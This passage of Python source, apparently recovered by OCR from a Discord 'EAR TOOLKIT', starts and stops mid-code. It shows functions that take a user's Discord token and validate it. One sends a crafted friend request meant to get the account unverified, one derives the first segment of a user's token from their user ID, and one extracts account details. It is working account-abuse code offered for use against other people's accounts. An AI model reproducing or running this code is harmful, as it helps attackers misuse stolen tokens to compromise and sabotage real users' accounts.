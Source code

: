           while True:
              input()
              os.system('cls; clear')
              tool()
    else:
        print('\nInvalid Token\n')
        input('Press [Enter] key to go back to Main Menu.')
        tool()
        os.system('cls; clear')
def unverifytoken():
    os.system('cls; clear')
    print('[EAR TOOLKIT] - UNVERIFY TOKEN: \n')

    token = input('Token: ')
    headers = {'Authorization': token, 'Content-Type': 'application/json'}  
    r = requests.get('https://discord.com/api/v8/users/@me', headers=headers)
    if r.status_code == 200:
        r = requests.post('https://discordapp.com/api/v8/users/@me/relationships', headers={'Authorization': token, 'User-Agent': 'discordbot'}, json={'username': 'LMAO', 'discriminator': 6572})
        if r.status_code == 204:
            print('\n[SUCCESFULL] - Unverified Token\n')
            print('Press [Enter] key to go back to Main Menu.')
            while True:
                input()
                os.system('cls; clear')
                tool()
        else:
          print('\n[UNSUCCESFULL] - Failed to Unverify Token\n')
          print('Press [Enter] key to go back to Main Menu.')
          while True:
              input()
              os.system('cls; clear')
              tool()
    else:
        print('\n[UNSUCCESFULL - ]Invalid token')
        print('Press [Enter] key to go back to Main Menu.')
        while True:
            input()
            os.system('cls; clear')
            tool()
def tokenfromuserid():
    os.system('cls; clear')
    print('[EAR TOOLKIT] - HALF TOKEN FROM USER ID: \n')
    userid = input('UserID: ')
    string_b = f"{userid}".encode('utf')
    bas64_bytes = base64.b64encode(string_b)
    print()
    print('Half Token: --\/')
    print(bas64_bytes.decode('utf-8'))
    print('\nPress [Enter] key to go back to Main Menu.')
    while True:
        input()
        os.system('cls; clear')
        tool()
def tokeninfo():
    os.system('cls; clear')
    print('[EAR TOOLKIT] - TOKEN INFO: \n')
    token = input('Token: ')
    headers = {'Authorization': token, 'Content-Type': 'application/json'}  
    r = requests.get('https://discord.com/api/v8/users/@me', headers=headers)
    if r.status_code == 200:
      print('\n - Token is valid - ')
      userName = r.json()['username'] + '#' + r.json()['discriminator']
      userID = r.json()['id']